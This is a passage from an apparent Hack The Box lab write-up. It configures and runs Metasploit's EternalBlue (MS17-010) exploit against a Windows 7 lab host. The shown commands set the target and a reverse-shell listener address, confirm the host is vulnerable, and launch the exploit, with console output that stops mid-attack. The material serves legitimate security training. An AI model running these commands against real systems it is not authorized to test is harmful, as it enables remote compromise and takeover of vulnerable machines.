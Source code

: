 
We can see that there are a few `Required` options that we will need to adjust and set. 

First, we will need to set the `RHOSTS` value to be that of the target, in this case we will set it to the target's IP address.

```zsh
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.129.246.69

RHOSTS => 10.129.246.69
```

Next we will need to set the `LHOST` option to be equal to the IP address we would like to receive the reverse shell on. In this case it will be equal to our `tun0` address which is the IP address assigned to us while we are connected to the Hack the Box environment via the OpenVPN file. 

```zsh
msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.10

LHOST => 10.10.14.10
```

Additionally, we could also set the `LPORT` option to a another different port from the default port `4444`, but in this case we will just leave it as is.

Now that we have set our options correctly we can utilise the check functionality that this modules offers to see if the target host is vulnerable. 

```zsh
msf exploit(windows/smb/ms17_010_eternalblue) > check

[*] 10.129.246.69:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.246.69:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.246.69:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.246.69:445 - The target is vulnerable.
```

And *voila*, we can see from the output that the target host is in fact vulnerable.


## Exploitation

Now that we have confirmed that the target host is vulnerable, we can go ahead now and run the exploit module.

```zsh
msf exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] 10.129.246.69:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.246.69:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.129.246.69:445     - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.246.69:445 - The target is vulnerable.
[*] 10.129.246.69:445 - Connecting to target for exploitation.
[+] 10.129.246.69:445 - Connection established for exploitation.
[+] 10.129.246.69:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.246.69:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.246.69:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.246.69:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.246.69:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.129.246.69:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.246.69:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.246.69:445 - Sending all but last fragment of exploit packet
[*] 10.129.246.69:445 - Starting non-paged pool grooming
[+] 10.129.246.69:445 - Sending SMBv2 buffers
```